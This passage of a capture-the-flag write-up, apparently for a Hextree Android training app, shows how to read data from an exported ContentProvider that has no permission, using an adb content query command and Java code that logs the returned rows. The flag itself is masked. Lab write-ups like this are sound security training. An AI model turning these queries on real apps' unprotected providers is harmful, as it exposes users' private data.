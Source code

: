 since it's exported and their is no permission to protect it, we can call and interact with it as we want

```java
public class Flag30Provider extends ContentProvider {

// alot of not implimentend methods so i removed them
	@Override 
    public Cursor query(Uri uri, String[] strArr, String str, String[] strArr2, String str2) {

        if (!uri.getPath().equals("/success")) {
            return null;
        }
        Cursor query = this.dbHelper.getReadableDatabase().query(
		    FlagDatabaseHelper.TABLE_FLAG,  // Table name
		    strArr,                         // Columns to return (projection)
		    "name=? AND visible=1",         // WHERE clause (filter)
		    new String[]{"flag30"},         // Selection args (replaces '?')
		    null, null, str2                // GroupBy, Having, SortOrder
		);
        query.setNotificationUri(getContext().getContentResolver(), uri);
        success(logHelper);
        return query;
    }
}
```

When we pass an URI to be queried it checks if the path is `/success` and returns entries that has name `flag30` and is `visible=1`  so the SQL query looks like 

```sql
SELECT [strArr columns...] FROM flag_table WHERE name = 'flag30' AND visible = 1 ORDER BY [str2];
```

using the authority defined in xml the URI will be `content://io.hextree.flag30/success`

#### Solution
In recent android versions to query a provider you need to define the app package that has the provider you want to query

```xml
<queries>  
    <package android:name="io.hextree.attacksurface" />  
</queries>
```

ADB:
```shell
 adb shell content query --uri content://io.hextree.flag30/success
```

Output: `Row: 0 _id=1, name=flag30, value=HXT{XXXX-YYYYY-ZZZZ-c}, visible=1`

java:
```java
Uri uri = Uri.parse("content://io.hextree.flag30/success");
Cursor cursor = getContentResolver().query(uri, null, null, null, null);  
if (cursor.moveToFirst()) {  
    do {  
        StringBuilder sb = new StringBuilder();  
        for (int i = 0; i < cursor.getColumnCount(); i++) {  
            if (sb.length() > 0) sb.append(", ");  
            sb.append(cursor.getColumnName(i)).append(" = ").append(cursor.getString(i));  
        }  
        Log.d("evil", sb.toString()); // result will be logged 
    } while (cursor.moveToNext());  
}
```
